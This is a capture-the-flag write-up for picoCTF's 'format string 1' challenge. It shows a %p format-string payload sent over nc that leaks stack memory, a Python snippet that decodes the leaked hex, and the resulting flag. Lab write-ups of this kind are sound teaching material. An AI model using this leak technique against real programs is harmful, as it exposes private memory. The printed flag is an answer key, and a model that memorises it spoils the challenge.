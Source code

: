 <h1>format string 1</h1>
<h3>Description</h3>
<p>
Patrick and Sponge Bob were really happy with those orders you made for them, but now they're curious about the secret menu. Find it, and along the way, maybe you'll find something else of interest!
Download the binary <a href='https://artifacts.picoctf.net/c_mimas/83/format-string-1'>here</a>.
Download the source <a href='https://artifacts.picoctf.net/c_mimas/83/format-string-1.c'>here</a>.
Connect with the challenge instance here:</p>
<h3>Solution</h3>
Payload input %p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p

```console
root@xisco-VirtualBox:/home/xisco/Downloads# nc mimas.picoctf.net 57840
Give me your order and I'll read it back to you:
%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%P,%p,%p,%p,%p,%p,%p,%p,%p,%p
Here's your order: 0x402118,(nil),0x73e84e43ca00,(nil),0xfcc880,0xa347834,0x7ffebfeb92b0,0x73e84e22de60,0x73e84e4524d0,0x1,0x7ffebfeb9380,(nil),(nil),%P,0x7b4654436f636970,0x355f31346d316e34,0x3478345f33317937,0x34365f673431665f,0x7d363131373732,0x7,0x73e84e4548d8,0x2300000007,0x206e693374307250
Bye!
```
<p>decode beberapa hex 0x7b4654436f636970,0x355f31346d316e34,0x3478345f33317937,0x34365f673431665f,0x7d363131373732</p>

```python
bytes.fromhex('7d36313137373234365f673431665f3478345f33317937355f31346d316e347b4654436f636970')[::-1]
b'picoCTF{4n1m41_57y13_4x4_f14g_64277116}'
```
<h3>Flag</h3>
<pre>
picoCTF{4n1m41_57y13_4x4_f14g_64277116}
</pre>
